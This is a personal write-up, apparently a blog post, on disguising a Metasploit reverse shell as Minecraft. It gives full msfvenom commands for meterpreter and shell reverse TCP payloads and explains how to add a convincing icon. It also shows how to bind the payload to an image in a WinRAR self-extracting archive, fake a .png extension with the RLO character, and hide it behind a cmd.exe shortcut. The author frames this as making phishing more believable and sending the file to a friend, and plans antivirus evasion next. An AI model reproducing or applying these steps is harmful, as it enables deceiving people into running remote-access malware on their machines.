

# Reverse shell tcp exploit masked as minecraft.exe 

I've been getting some shitty phishing emails so I thought how I could make it more believable:

This is kinda bad.

I saw the other day a video about something like "turn any executable into png" and i thought, what if I made a windows reverse tcp binary using msfvenom and named it as minecraft.exe? 

In this writeup we will do:
- Minecraft.exe reverse shell
- Minecraft.exe/png bundled with another file reverse shell
- Hidden CMD shortcut when opening the Minecraft.png file
- Maybe make a pdf reverse shell

Let's do it

## part 1

First I'm using bridged adapter kali linux VM with windows as my host machine. I am on the same 192.168.100.x network

We have a few payload options, we can use meterpreter or just normal shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

I moved the file into my windows desktop. We can test that it works first by running the exe. If we geta shell we can change directory
`cd /d C:\` 

Just have to disable my antivirus since the binary itself is fingerprinted with metasploit

We will customize this executable to make it look legitimate following this tutorial by "ebola man"

Video: https://www.youtube.com/watch?v=cXEkSQl9wmw

First we need resource hacker: https://www.angusj.com/resourcehacker/#download

Then we get minecraft icon png and put it on our exe.

Now we have a legitemately looking minecraft hack except windows defender instantly knows thats its a virus and when running it, it doesn't do anything which is sus

So let's forget the payload legitimacy first, what if we want to turn this into a legit looking PNG and just send it to a friend?

## part 2
According to the tutorial, we can bind a picture with the exe using Winrar. 

Select the picture and exe and add to archive

- Check "create SFX archive"

- Go to advanced SFX and put these

- Then modes unpack to temp folder and hide all

- Then text and icon, select your icon (must be ICO format)

- In update tab => overwrite all files

Now we get the same `minecraft.exe` but now it opens up an image we bundled it with when run

Change the extension from .exe to .scr

`minecraft.scr`

It runs the same 

Now we insert a special character by right clicking while editing file name, right before ouur file extension at `file|gnp.scr`

=> insert special character => RLO

Now it looks like this with and runs normally

## part 3
Another method is to create a folder with a shortcut of the file. I'm imagining this as a folder of pictures

Take the exe file from part 2 and change it to `minecraft.png`

It will run in CMD when you type `minecraft.png`

Create folder, create shortcut

Make original image file hidden in properties

In the shortcut properties, add `cmd.exe /c` in the target, and change the icon to something believable

Next up I need to think:
- How to bypass windows defender
- Set up remote server listener
- Better masking and stealthing after exploitation
- Post-exploitation objectives

Source: 

ebola man
https://www.youtube.com/watch?v=cXEkSQl9wmw

https://www.youtube.com/watch?v=78QSSB2NnwQ